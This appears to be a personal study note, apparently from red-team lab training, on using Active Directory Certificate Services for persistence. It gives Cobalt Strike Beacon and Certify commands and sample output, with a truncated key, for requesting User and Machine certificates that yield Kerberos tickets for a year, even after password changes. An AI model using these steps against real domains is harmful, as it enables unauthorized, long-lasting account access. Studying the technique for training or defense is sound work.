 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ADCS for Persistence]]  
___

## Description:  

### User Persistence

In this example, I have a Beacon running as **DEV\nlamb**.  Use Certify to find all the certificates that permit client authentication:

```
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
```

This will show _every_ certificate template in both CA-1 and CA-2 that has a suitable [EKU](https://www.pkisolutions.com/object-identifiers-oid-in-pki/) (Extended Key Usage) for client authentication, so we need to search the output for a template that matches our requirements.  To limit the volume of output, we can only return templates from the CA in our current domain, using `/ca:dc-2.dev.cyberbotic.io\ca-2`.

It is possible that CA-1 could have templates that we could enrol with, so if nothing was found on CA-2 make sure to check other CAs as well.

The User template provided by Microsoft is a good one to use. The important aspects are:

-   The validity period is 1 year.
-   Authorization is not required.
-   Domain Users in DEV have enrollment rights.

Request a certificate from this template using `Certify.exe request`:

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:User

[*] Action: Request a Certificates
[*] Current user context    : DEV\nlamb
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=Nina Lamb, CN=Users, DC=dev, DC=cyberbotic, DC=io

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\ca-2

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 3

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAo5ejiiRTGXwUsgp5ym3xDOM1ywyb66gnCgBQgNH+vKGHVvRv
[...snip...]
ogA4OuTwSHtQMWDz+22b8Ov1GGKiEWb8xrEWOblXAuanuZVAV6c=
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGFzCCBP+gAwIBAgITKQAAAANefI7KgovYwAAAAAAAAzANBgkqhkiG9w0BAQsF
[...snip...]
oY+5b0v0Oa5ofHUC8gSg5BfUlEalH516fAaC
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

This certificate allows us to request a TGT for nlamb using Rubeus.  It's valid for 1 year (yes, we can use it to request TGTs for an entire year), and will continue working even if the user changes their password.  It's an excellent user persistence method because it doesn't involve touching LSASS and can be utilised without the need for an elevated context.  The certificate will only become in invalid if it's specifically revoked on the CA.

### Computer Persistence

This scenario is not all that different from above.  Machines are a special type of user in AD and can have their own certificates issued.  The default template for computers is called `Machine` (the template display name is `Computer`).  By default they are also valid for 1 year, do not require authorization, and all domain computers have enrollment rights.

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:Machine /machine
```
The `/machine` parameter tells Certify to auto-elevate to SYSTEM and assume the identity of the machine account (for which you need to be running in high-integrity).

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (03:15 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
